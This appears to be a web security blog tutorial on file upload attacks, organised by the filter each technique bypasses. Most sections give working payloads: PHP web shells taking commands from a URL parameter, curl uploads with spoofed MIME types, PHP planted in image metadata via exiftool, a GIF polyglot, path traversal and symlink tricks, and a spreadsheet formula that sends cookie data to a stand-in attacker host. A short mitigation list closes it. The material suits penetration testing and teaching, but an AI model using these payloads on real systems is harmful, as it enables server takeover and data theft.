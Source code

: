 ```yaml
---
layout: article
title: "File Upload Attacks & Bypass Techniques"
date: 2025-03-18
categories: Web security
tags: security web tutorials penetration-testing best-practices file-upload
---
```


# **File Upload Attacks & Bypass Techniques**

File upload vulnerabilities arise when a server improperly handles user-uploaded files. Below are common file upload attack techniques categorized by the filtering methods they attempt to bypass.

---

## **1. No Filtering (Direct Execution)**
- **Attack:** Uploading a malicious executable file (e.g., `.php`, `.jsp`, `.exe`, `.sh`) and executing it.
- **Bypass:** No need for bypass; just upload a web shell.

### **Example: Basic PHP Web Shell**
```php <?php system($_GET['cmd']); ?>
```
**Usage:** `http://example.com/uploads/shell.php?cmd=id`

---

## **2. Extension-Based Filtering**  
- **Filter:** Only allows specific extensions (e.g., `.jpg`, `.png`, `.pdf`).  
- **Bypass Techniques:**
  - **Double Extensions:** `shell.php.jpg`
  - **Case Manipulation:** `SHELL.PhP`
  - **Null Byte Injection:** `shell.php%00.jpg` (older PHP versions)
  - **MIME Type Spoofing:** Modifying request headers (e.g., `Content-Type: image/png`)
  - **Polyglot Files:** Embedding executable code in valid images/PDFs.

### **Example: Spoofing MIME Type with Burp Suite**
Modify the request before submission:
```http
POST /upload HTTP/1.1
Content-Type: image/png

[shell.php content]
```

---

## **3. MIME Type Filtering**  
- **Filter:** Server checks MIME type in headers (`image/jpeg`, `application/pdf`).  
- **Bypass Techniques:**
  - **Tampering with HTTP Headers** using Burp Suite.
  - **Using File Upload APIs Incorrectly** (some apps trust the client-side MIME check).

### **Example: Uploading Malicious File via `curl`**
```bash
curl -F 'file=@shell.php;type=image/png' http://example.com/upload
```

---

## **4. Content-Based Filtering**  
- **Filter:** Server inspects file content for malicious code.  
- **Bypass Techniques:**
  - **Encoding Payloads:** Base64, gzip, or hex encoding.
  - **Obfuscation:** Breaking patterns (e.g., `<?p\h\p eval($_GET['cmd']); ?>`)
  - **Appending Fake Image Headers:** Embedding PHP payload inside an image.

### **Example: PHP Code in Image Metadata**
```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
```

---

## **5. Directory Restriction (Upload Location)**  
- **Filter:** Files are uploaded to a non-executable directory.  
- **Bypass Techniques:**
  - **Path Traversal:** `../../var/www/html/shell.php`
  - **Symlink Attack:** Linking an allowed file type to a malicious script.
  - **Race Condition:** Uploading a safe file and quickly replacing it.

### **Example: Symlink Attack**
```bash
ln -s /var/www/html/shell.php safe.jpg
```

---

## **6. Client-Side Validation (JavaScript-Based)**  
- **Filter:** JavaScript checks file extension or size before submission.  
- **Bypass Techniques:**
  - **Disable JavaScript** in browser dev tools.
  - **Modify HTTP Request** using Burp Suite.
  - **Use a Custom Upload Script** (`curl`, `requests` in Python).

### **Example: Uploading Directly via `curl`**
```bash
curl -F 'file=@shell.php' http://example.com/upload
```

---

## **7. Image-Only Uploads (Strict Validation)**  
- **Filter:** Server verifies image integrity (`exif_imagetype()`, `getimagesize()`).  
- **Bypass Techniques:**
  - **Appending PHP Payload to Image Metadata:** `exiftool`
  - **Embedding Payload in Image Data:** Steganography.
  - **Leveraging Weak Parsers:** Manipulating image files.

### **Example: JPEG Polyglot (PHP + Image Header)**
```php
GIF89a;
<?php system($_GET['cmd']); ?>
```
---

## **8. Cloud Storage (S3, Google Drive, etc.)**  
- **Filter:** Files are stored separately with no execution permissions.  
- **Bypass Techniques:**
  - **Signed URL Hijacking:** Using pre-signed URLs for unauthorized access.
  - **XSS via File Preview:** Uploading JavaScript-embedded HTML/CSV files.

### **Example: XSS via CSV Upload**
```csv
=IMPORTXML("http://attacker.com/?cookie="&ENCODEURL(A1))
```
---

## **Mitigation Strategies**
✅ **Server-Side Validation:** Always check the file type and contents on the server.  
✅ **Use Safe Storage Locations:** Store uploads outside webroot.  
✅ **Strict MIME and Content Filtering:** Don’t rely on extensions alone.  
✅ **Disable Script Execution:** Block execution in upload directories.  
✅ **Randomized Filenames:** Prevent attackers from predicting and accessing files.

---
# YouTube Videos

Check out this awesome videos:

<iframe width="560" height="315" 
        src="https://www.youtube.com/embed/ZWG1nNdUnBc" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>
<iframe width="560" height="315" 
        src="https://www.youtube.com/embed/BJhTZlg5Ig8" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>
<iframe width="560" height="315" 
        src="https://www.youtube.com/embed/YAFVGQ-lBoM" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>

💡 **Pro Tip:** Always test for multiple bypass techniques—many real-world applications fail at multiple levels. 🚀
